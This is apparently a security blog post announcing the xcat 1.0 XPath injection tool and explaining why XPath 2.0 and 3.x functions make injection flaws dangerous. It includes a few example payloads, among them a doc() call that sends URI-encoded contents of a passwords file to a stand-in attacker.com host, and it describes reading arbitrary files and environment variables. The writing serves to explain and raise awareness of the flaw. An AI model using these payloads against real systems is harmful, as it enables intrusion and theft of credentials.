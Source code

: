 ```yaml
---
title: "XCat 1.0 released or: XPath injection issues are under appreciated"
date: "2018-12-09T19:58:01Z"
draft: false
tags:
   - projects
   - security
---
```


*tl;dr: XPath injection flaws allow you to exfiltrate a surprising amount of potentially sensitive information, the 
lack of awareness around this and the lack of inbuilt security features makes for a potent mix*

I've just released [xcat 1.0](https://github.com/orf/xcat) and it's
[demonstration application](https://github.com/orf/xcat_app) after like 5 years of on-off development. Feels good!

The genesis of xcat was when my boss, Sid, walked up to me out of the blue and asked if I wanted to go on an all 
expenses paid trip to Amsterdam. Who the hell wouldn't say yes to that proposition? *"Great! you've got a month to write
a research paper on XPath injection flaws and we will present it at Blackhat Europe"*. Wait... slow down! What's XPath?!

As it turns out XPath is what you get when you combine the unholy trinity of **XML**, **design-by-committee** and 
**large quantities of drugs**. But before I get into that here's a short demo of me listing directories, reading 
arbitrary files and dumping environment variables through a simple innocuous XPath injection flaw, using `xcat`:
 
<center>
<script id="asciicast-216044" src="https://asciinema.org/a/216044.js" async></script>
</center>

*I recommend reading a little bit about what XPath is and a little bit about blind injection vulnerabilities.
I wrote [an introduction here](http://localhost:1313/exploiting-xpath-injection-vulnerabilities-with-xcat/) or there 
is the venerable [OWASP page on the topic](https://www.owasp.org/index.php/XPATH_Injection).*


## XPath 1.0

So, back to large quantities of drugs. The year was 1999. Intel had just released the 800 MHZ Pentium III, Internet
Explorer 5.0 was the hot new browser and XML was all the rage.
 
All was not well in the land of XML though: parsing, filtering and generally using it was a huge pain. So some clever
people invented a nice, clean and concise syntax for querying it documents without any hassle:

`//Employee[UserName/text()='tom']`

Cool! This seems a lot simpler and more flexible than whatever manual parsing/iteration you'd come up with
in `$FAVORITE_LANGUAGE`. And this was XPath, the people rejoiced and the world was good.

Until 2010.

## XPath 2.0

It was decided in 2010 that XPath 1.0 was too simple. What it clearly, *clearly* lacked was a weird type system
(it's both strongly and weakly typed), a [greatly expanded type heirachy](https://upload.wikimedia.org/wikipedia/commons/9/91/XQuery_and_XPath_Data_Model_type_hierarchy.png)
(seriously go look at that), `isinstance` checks, casting and a much larger function library.

Now don't get me wrong: some of these are good changes. But what snuck into this version is the 
[fairly innocuous  `doc` function](https://maxtoroq.github.io/xpath-ref/fn/doc.html). Seems simple - you can reference 
external XML files in your query (almost like a join) and I'm sure there are use cases for this.

This function jumped right out at me when I was struggling 
[through the very, very dense XPath specification](https://www.w3.org/TR/xpath20/), wondering if I should just buy my
own bloody holiday to Amsterdam. What does `doc('https://attacker.com/xxe.xml')` do? Or
`doc('ftp://internalserver/passwords.xml')`? Or, heck, even `doc('gopher://server/something')`?

Turns out it does what you would expect. It makes the request. So now if you find an exploitable XPath injection flaw 
you can make arbitrary network requests for any XML-like document you can find. If your internal services respond with 
HTML that parses as XML that's great! Or how about if all your Java/.NET configuration files are in XML, storing all 
those juicy database passwords? That's even better! **We can now read them and download them via any XPath 2.0 injection 
issue.**

Other than this the interesting thing is you can use this function to exfiltrate large quantities of data really 
quickly. The specification very nicely includes [an `encode-for-uri` method](https://maxtoroq.github.io/xpath-ref/fn/encode-for-uri.html), 
so we could just do:

`doc(string-join('http://attacker.com/?d', encode-for-uri(doc('passwords.xml')/some-node)))`

Another cool issue is [external entity injection](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing). 
The tl;dr is you can serve up a malicious XML file that is requested by `doc()` that can read arbitrary files on the filesystem!

Awesome! [xcat implements these attacks](https://xcat.readthedocs.io/en/latest/OOB-server/) by the way.

The real kicker here is:

- You need to explicitly configure your XPath engine to protect against all of this, which inevitably nobody does because 
  nobody expects it. It's just a simple query language, right?
  
- There is no concept of parameterized queries like you have in every SQL adapter. It has to be done manually, and 
  it has to be done **correctly in every input**. If you miss something then you're vulnerable to all of this!
  
And this was XPath 2.0. Tom got to go to Amsterdam and
[present at Black Hat Europe](https://media.blackhat.com/bh-eu-12/Siddharth/bh-eu-12-Siddharth-Xpath-Slides.pdf), and 
the world was good.

Until 2014. At which point the drugs really kicked in.

## XPath 3.0/3.1

It was decided in 2014 that XPath 2.0 was too simple. What it clearly, *clearly* lacked was dynamic function calls,
for loops, introspection, array map/filter/reduce, associative arrays, 
[**dynamic module loading**](https://maxtoroq.github.io/xpath-ref/fn/load-xquery-module.html), JSON parsing, 
inline functions, exceptions and tracebacks.

So now our lovely, simple XPath has evolved into:

```
for-each(normalize-unicode(upper-case(json-doc('x.json'))) => tokenize("\s+"),
         function($a) {
            let $a := $a * 10
            load-xquery-module('abc'):some-func(
                        function-lookup($a, 1)(array:map($a, function($b) {
                                let $c := unparsed-text-lines($b)
                                trace($c)
                                if ($c) {
                                    return xml-to-json($b)
                                } else {
                                    error('This is an error')
                                }
                        })) 
            }
)
```

Yay! The future is here! Can you smell the progress?

Aside from trying to turn XPath into some JavaScript-esque abomination they also added three interesting functions:

* [unparsed-text](https://maxtoroq.github.io/xpath-ref/fn/unparsed-text.html)
* [environment-variable](https://maxtoroq.github.io/xpath-ref/fn/environment-variable.html)
* [json-doc](https://maxtoroq.github.io/xpath-ref/fn/json-doc.html)

With these we **can read any arbitrary text files**, and iterate through **all environment variables**.

Also if your internal webservice speaks JSON, well then buddy you're in luck! A simple XPath injection flaw can let the 
attacker read all of those responses using the handy JSON functions introduced in 3.1.

So, utilizing the same injection flaw and the same out-of-bound attack discussed above we can exfiltrate any readable 
file on the filesystem, or network, quickly and cleanly.

## Summary

I'm sure they are already working on XPath 4.0. I wonder if they will add DirectX support, I think it's really lacking 
in that area.